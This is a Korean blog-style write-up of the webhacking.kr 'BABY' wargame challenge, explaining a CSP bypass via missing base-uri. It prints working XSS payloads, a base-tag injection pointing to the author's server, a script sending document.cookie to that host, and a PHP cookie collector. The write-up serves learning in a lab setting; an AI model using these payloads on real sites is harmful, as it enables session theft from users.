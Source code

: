 ```yaml
---
title: "[webhacking.kr] Challenge BABY 문제 풀이"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - XSS
  - BABY
  - CSP
  - base-uri
  - script-src
  - nonce
  - hash
toc: true
toc_sticky: true
toc_label: "BABY 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge BABY 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
문제는 2개의 페이지로 구성되어 있습니다.
첫번째 화면은 다음 처럼 `?inject=` GET방식으로 원하는 문자열을 inject 하는 기능이 있는 페이지입니다.

![image](https://user-images.githubusercontent.com/33647663/156695592-d713cfe2-71e5-415b-a7cc-4b2d0e47ebb4.png)

그 다음은 `report.php`페이지로 사용자가 입력한 주소를 관리자가 바로 접속을 하는 기능입니다.

![image](https://user-images.githubusercontent.com/33647663/156695694-e5c4808d-ede1-4540-846f-169b553b0b59.png)

이 문제는 전형적인 **XSS**를 이용하는 문제입니다. 첫 번째 inject 페이지에서 악성 스크립트(대부분 쿠키를 탈취하는 스크립트)가 삽입되도록 inject 값을 구성하고, 두번째 페이지에서 해당 페이지에 관리자 봇이 접속하도록 하여, 악성 스크립트가 관리자 봇에서 동작하게 하면 됩니다.

# 문제 풀이
우선 inject 페이지에서 사용자의 입력값이 바로 들어가는지 또는 필터링이 있는지 확인해 봅니다.

```html
inject=<script>alert(1)</script>
```

![image](https://user-images.githubusercontent.com/33647663/156696005-93a16e2c-ffaf-44d3-b8e3-ff47543c0a5a.png)

해당 페이지의 소스코드를 보면, 다음과 같이 스크립트가 정상적으로 삽입되었지만, alert(1)구문이 실행이 되지 않습니다. 

원인을 찾기 위해서 콘솔을 띄워 보니 다음의 오류가 출력되었습니다.

![image](https://user-images.githubusercontent.com/33647663/156696124-cb5c9583-8018-49a6-beab-aa53b14477b1.png)

```md
Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'nonce-8U+ozHAw9t1UUZIQnkvFyQlu+Hg='". Either the 'unsafe-inline' keyword, a hash ('sha256-bhHHL3z2vDgxUt0W3dWQOrprscmda2Y5pLsLg4GF+pI='), or a nonce ('nonce-...') is required to enable inline execution.
```

해석을 해보면, CSP 지시자인 `script-src 'nonce-8U+ozHAw9t1UUZIQnkvFyQlu+Hg=`를 위반했기 때문에 inline script가 실행되지 않은 것을 알 수 있습니다.

따라서 이번 문제는 CSP를 우회하여 script가 실행되도록 해야 합니다.

뒤에 붙은 추가적인 에러 내용을 우선 짚고 넘어가 보겠습니다.

1. `unsafe-inline` 키워드를 사용
2. hash ('sha256-bhHHL3z2vDgxUt0W3dWQOrprscmda2Y5pLsLg4GF+pI=')
3. nonce 값 넣기

를 하면 inline execution이 가능하다고 나옵니다.

우선 1번의 내용은 서버 측에서 CSP 정책을 설정할 때, unsafe-inline 지시자를 추가하여, 지금처럼 inline script가 실행되는 것을 허용하라는 의미입니다. 현재 클라이언트(공격자) 입장에서 지시자를 바꿀 수 없기 때문에 가능하지 않습니다.

2번 내용도 서버에서 설정을 하는 내용이며 CSP 정책을 설정할 때, 해시값을 넣어주는 것입니다. 위의 나온 해시값은 제가 입력한 스크립트(<script>alert(1)</script>)의 해시 값입니다. 이 개념은 서버측에서 스크립트에 대한 해시를 사전에 등록하여 정상적인 스크립트만 화이트리스트 방식으로 허용하는 것으로 생각하면 됩니다. 물론 해당 내용도 클라이언트에서 바꿀 수 없기 때문에 현재 문제에서는 가능하지 않습니다.

3번은 현재 서버측 CSP 지시자에 설정되어 있는 값으로, 사용자가 매번 요청할 때마다 랜덤한 nonce 값이 script에 추가되어 클라이언트에 전송됩니다. 따라서 서버공격자는 임의로 생성되는 nonce 값을 모르기 때문에 script를 실행할 수 없습니다.


현재 CSP 지시자는 다음과 같습니다. script-src에 nonce 값이 있어야만 결국에 스크립트가 작동됩니다. 

![image](https://user-images.githubusercontent.com/33647663/156748181-96f328b4-97fe-4cb5-b525-3e25aa15a93a.png)

처음에는 어떻게 이 문제를 해결해야 할 지 몰라서 다음의 CSP 설정에 대한 검사를 해주는 사이트에 문제의 url을 입력해 봤습니다.

https://csp-evaluator.withgoogle.com/

![image](https://user-images.githubusercontent.com/33647663/156748832-de03d580-da4a-4e39-af91-9ed7d7c28f26.png)

결과를 보면 2가지 위험 사항이 나옵니다.

1. object-src 지시자가 없기 때문에, Javascript가 실행가능한 plugin injection이 가능하다는 내용
2. base-uri 지시자가 없기 때문에, 공격자가 base-uri를 변경하여 상대경로로 지정한 스크립트를 공격자가 컨트롤하는 도메인 내에서 실행가능하게 할 수 있다는 내용입니다.


저는 위의 두가지 방법을 모두 시도해 봤습니다.

우선 object 를 이용하여 javascript를 실행하는 것은 다음처럼 가능합니다.

```javascript
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

코드의 내용은 `<script>alert(1)</script>`를 base64로 인코딩 하여 object 형식으로 전송한 것입니다. 이 내용이 브라우저에서 실행되면 다음과 같이 됩니다.

![image](https://user-images.githubusercontent.com/33647663/156750041-50f10d8d-c119-4cb8-9b26-d4fc0568e391.png)

하지만 위의 방법도 결국에는 object가 해석되면서 script로 실행되어서 nonce 값이 없기 때문에 동일하게 실행되지 않습니다. 이 문제에서는 사용하지 못했지만, 나중에 다른 문제에서 `<script>` 를 필터링 한다든지 하는 경우에 사용가능한 방법 같습니다.

그 다음은 base-uri를 이용한 방법입니다.문제에서 보면 `/script.js` 파일이 상대경로로 지정되어서 서버의 base-uri/script.js 파일이 실행되고 있습니다. 

![image](https://user-images.githubusercontent.com/33647663/156750333-f9bf68aa-4fbb-4272-87f0-733b3cab1b8c.png)

base-uri를 이용한 공격은 이 base-uri 값을 공격자의 도메인으로 바꿔서 `www.hacker.com/script.js` 가 실행되도록 하는 것입니다.

base-uri를 바꾸는 방법은 다음과 같습니다. 아래의 코드가 삽입되면 서버에서 base-uri가 공격자의 도메인으로 바뀝니다. 


```html
<base href="www.hacker.com"/>
```

우선 대상 서버에서 접속할 도메인에 script.js 파일에 alert(1)을 작성해주고, inject를 해서 base-uri를 바꿔줍니다.

![image](https://user-images.githubusercontent.com/33647663/156750967-e64ca1f6-5a06-4b70-84bc-f9a4dc5f7b68.png)

```html
?inject=<base href="http://3.35.110.110/">
```

성공적으로 제 서버에 있는 `script.js` 파일이 실행되었습니다.

![image](https://user-images.githubusercontent.com/33647663/156751993-a114c2c6-c5aa-44ed-938d-64132ae4cd9c.png)

이제 script.js안에 쿠키를 탈취하기 위해서 다음과 같이 작성해 줍니다.

```js
document.location="http://3.35.110.110/xss.php?cookie="+document.cookie;
```

그리고 쿠키 값을 저장하도록 xss.php 파일을 다음과 같이 작성해 줍니다.

```php
<?php
$cookie = $_GET['cookie'];
$save_file = fopen("/var/www/html/cookie","w");
fwrite($save_file,$cookie);
fclose($save_file);
?>
```

이제 report.php 파일에 가서 다음과 같이 리포트를 하면, 관리자의 쿠키가 공격자에게 전송되어서 쿠키 탈취가 가능해 집니다.

![image](https://user-images.githubusercontent.com/33647663/156752745-f3e3378e-7b49-4722-b04b-f4fe34a39bdc.png)

![image](https://user-images.githubusercontent.com/33647663/156752781-70f3dff5-dfb7-47af-b0d4-815e44911f1b.png)



# Reference
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/base-uri
https://jdh5202.tistory.com/820